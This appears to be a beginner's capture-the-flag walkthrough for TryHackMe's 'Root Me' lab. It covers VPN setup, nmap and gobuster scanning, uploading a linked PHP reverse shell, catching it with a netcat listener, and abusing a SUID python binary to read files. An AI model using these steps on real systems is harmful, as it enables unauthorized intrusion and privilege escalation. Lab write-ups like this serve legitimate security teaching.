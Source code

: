 # Root Me

**A CTF for begginers!**

- **Step 1:  Get connected**

We need to connect to the TryHackMe network and deploy the machine to gain access to it.

To connect to THM network, you need to download the OpenVPN GUI open-source application and import your VPN configuration file.

Connecting with ``Linux``:

1. Download OpenVPN by running the following command in your terminal:

    ```bash
        sudo apt install
        sudo apt install openvpn
    ```

2. Locate the full path to your VPN configuration file (download from the [access](https://tryhackme.com/r/access) page), normally in your Downloads folder.

3. Use your OpenVPN file with the following command: 
 
    ```bash
        sudo openvpn /path-to-file/file-name.ovpn
    ```

4. And that's it! You should be successfully connected.


![setup](images/vpn.png)

- **Step 2:  Start the machine**

Start the machine to get the ip.

![setup](images/ip.png)


- **Step 3:  Scanning the target NMAP**

1. Let's use Nmap to see how many ports are open and what protocols are running on them.


    ```bash
        sudo nmap -sS -sV <target-IP>
    ```

    `sudo` : Nmap requires root privileges to perform some advanced scans.

    `-sS` : Performs a TCP SYN scan, which is faster and less detectable.

    `-sV` : Detects service versions running on the open ports.

![setup](images/nmap.png)

- **Step 4:  Scanning the target GoBuster**

    `Gobuster`: Gobuster is a command-line tool used for brute-forcing URLs and directories on websites, as well as DNS subdomains. It helps security analysts discover hidden content by testing a list of possible names quickly.

    ```bash
        sudo apt install
        sudo apt install gobuster
    ```

    `Dirb`: Dirb is a web content scanner that searches for hidden directories and files on a web server by brute-forcing a wordlist. It helps identify potential entry points for further security testing.

    ```bash
        sudo apt install dirb
    ```

    ```bash
        gobuster -u 10.10.31.142 -w /usr/share/dirb/wordlists/small.txt
    ```
    `-u` 10.10.31.142: Specifies the target IP address.

    `-w` /usr/share/dirb/wordlists/small.txt: Uses a wordlist (small.txt) from Dirb’s collection to test for hidden directories.

![setup](images/gobuster.png)

Then testing all directories to see if they are hidden.

![setup](images/panel2.png)

![setup](images/panel.png)

- **Step 5:  Reverse shell**


Then, we create a `reverseshell.php5` file and upload it.
You can get the reverse shell code from here: [Reverse shell](https://github.com/pentestmonkey/php-reverse-shell.git)



![setup](images/1a.png)

Now that we have successfully uploaded the file, we should initiate the reverse shell by going to the uploads directory.

![setup](images/up.png)

![setup](images/up2.png)

Before executing the PHP file, we should use   `nc` to listen for incoming requests on our VPN IP.

We should use the VPN IP to listen because we need to be on the same network. Since the machine is in the THM network, we must use the VPN.

![setup](images/n.png)

`nc`: (Netcat) is a command-line tool used for creating TCP/UDP connections and listening on ports. It is commonly used for tasks like transferring data or setting up reverse shells.

```bash
    sudo nc -lvnp 86 -s 10.4.112.53
```


`sudo`: Runs the command with root privileges.

`nc`: Invokes the Netcat tool.

`-l`: Tells Netcat to listen for incoming connections.

`-v`: Enables verbose mode, providing more detailed output.

`-n`: Prevents DNS resolution (uses IP addresses directly).

`-p 86`: Specifies the port number (86) to listen on.

`-s 10.4.112.53`: Sets the source IP address to 10.4.112.53.

![setup](images/n2.png)

Here we are in our Target shell! =D

`NOTE`: In reverse shell no tabs and arrows, they are not working! =D

![setup](images/n3.png)

We can do any command we want, and explore the whole enviroment.

![setup](images/n4.png)

- **Step 6:  Exploring for data**


`SUID`: (Set User ID) is a special permission in Unix-like systems that allows a user to execute a file with the permissions of the file's owner, rather than the permissions of the user running the file. This is commonly used for programs that require elevated privileges, such as changing system configurations or accessing restricted resources.

Setting the SUID permission on `/usr/bin/python` is unusual and potentially risky, as Python normally doesn't need elevated privileges to run. If an attacker exploits this, they could gain root access by executing Python scripts with root privileges. 

`GTFOBins`: is a curated list of Unix binaries that can be exploited to escalate privileges or bypass security mechanisms. It includes tools that are commonly available on systems, such as find, vim, bash, and others, which, when misconfigured (e.g., with SUID permissions), can be used for privilege escalation or launching reverse shells. It's a valuable resource for penetration testers and attackers looking to leverage existing tools for privilege escalation.

here is a usefull site for gtfobins: `https://gtfobins.github.io/`

![alt text](image.png)

```bash
	python -c 'print(open("file_to_read").read())'
```

![alt text](images/r.png)


- **Conclusion**

This Root Me CTF walkthrough offers a step-by-step guide for beginners to engage with TryHackMe’s machine, starting from connecting to the network via OpenVPN to performing tasks such as scanning with Nmap, brute-forcing directories with GoBuster, and uploading a reverse shell for remote access.

- `VPN Connection`: Users connect to the TryHackMe network using OpenVPN, ensuring they can access the target machine securely.

- `Scanning with Nmap and GoBuster`: These tools help identify open ports, services, and potential hidden directories on the target system.
- `Reverse Shell Setup`: After uploading a reverse shell PHP script, the user listens for incoming connections using Netcat on their VPN IP.
- `Privilege Escalation`: Once inside the shell, the user explores potential vulnerabilities like SUID permissions and references resources like GTFOBins to escalate privileges.